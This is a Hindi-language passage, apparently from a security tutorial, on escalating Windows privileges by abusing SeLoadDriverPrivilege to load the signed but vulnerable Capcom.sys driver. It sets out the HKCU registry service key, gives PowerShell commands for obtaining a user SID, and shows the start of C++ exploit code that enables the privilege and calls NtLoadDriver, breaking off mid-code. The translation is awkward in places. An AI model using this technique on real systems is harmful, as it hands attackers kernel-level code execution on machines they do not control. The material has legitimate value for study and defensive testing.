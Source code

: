 ### Capcom.sys ड्राइवर शोषण <a href="#capcom-sys-driver-exploit" id="capcom-sys-driver-exploit"></a>

`SeLoadDriverPrivilege` खतरनाक होने को और अधिक साबित करने के लिए, चलो इसका शोषण करें **विशेषाधिकारों को उच्च करने** के लिए।

आप **NTLoadDriver** का उपयोग करके एक नया ड्राइवर लोड कर सकते हैं:
```cpp
NTSTATUS NTLoadDriver(
_In_ PUNICODE_STRING DriverServiceName
);
```
ड्राइवर सेवा नाम डिफ़ॉल्ट रूप से `\Registry\Machine\System\CurrentControlSet\Services\` के अंडर होना चाहिए।

लेकिन, **दस्तावेज़ीकरण** के अनुसार आप **HKEY\_CURRENT\_USER** के अंडर पथ का भी उपयोग कर सकते हैं, इसलिए आप सिस्टम पर **विभिन्न ड्राइवर्स लोड** करने के लिए वहाँ एक **रजिस्ट्री** में परिवर्तन कर सकते हैं।
नई रजिस्ट्री में परिभाषित होने चाहिए:

* **ImagePath:** REG\_EXPAND\_SZ प्रकार का मान जो ड्राइवर पथ को निर्दिष्ट करता है। इस संदर्भ में, पथ को एक नागरिक उपयोगकर्ता द्वारा संशोधन अनुमतियों वाले एक निर्देशिका होना चाहिए।
* **प्रकार:** REG\_WORD प्रकार का मान जिसमें सेवा का प्रकार निर्दिष्ट होता है। हमारे उद्देश्य के लिए, मान को SERVICE\_KERNEL\_DRIVER (0x00000001) के रूप में परिभाषित किया जाना चाहिए।

इसलिए आप **`\Registry\User\<User-SID>\System\CurrentControlSet\MyService`** में एक नई रजिस्ट्री बना सकते हैं, **ImagePath** में ड्राइवर का पथ और **प्रकार** में मान 1 के साथ निर्दिष्ट करके उस उत्पादन पर उपयोग कर सकते हैं (आप उपयोगकर्ता SID प्राप्त करने के लिए इस्तेमाल कर सकते हैं: `Get-ADUser -Identity 'USERNAME' | select SID` या `(New-Object System.Security.Principal.NTAccount("USERNAME")).Translate([System.Security.Principal.SecurityIdentifier]).value`।
```bash
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
```
पहला एक स्ट्रिंग वेरिएबल घोषित करता है जिससे पता चलता है कि पीड़ित सिस्टम पर कमजोर **Capcom.sys** ड्राइवर कहां स्थित है और दूसरा एक स्ट्रिंग वेरिएबल घोषित करता है जो उपयोग के लिए सेवा नाम दर्शाता है (कोई भी सेवा हो सकती है)।
ध्यान दें, **ड्राइवर को Windows द्वारा साइन किया जाना चाहिए** ताकि आप विचारशील ड्राइवर्स लोड नहीं कर सकते। लेकिन, **Capcom.sys** **को विचारशील कोड निष्पादित करने के लिए दुरुपयोग किया जा सकता है और यह Windows द्वारा साइन किया गया है**, इसलिए लक्ष्य यह ड्राइवर लोड करना है और इसका शोषण करना है।

ड्राइवर लोड करें:
```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
TOKEN_PRIVILEGES tp;
LUID luid;
bool bEnablePrivilege(true);
HANDLE hToken(NULL);
OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

if (!LookupPrivilegeValue(
NULL,            // lookup privilege on local system
L"SeLoadDriverPrivilege",   // privilege to lookup
```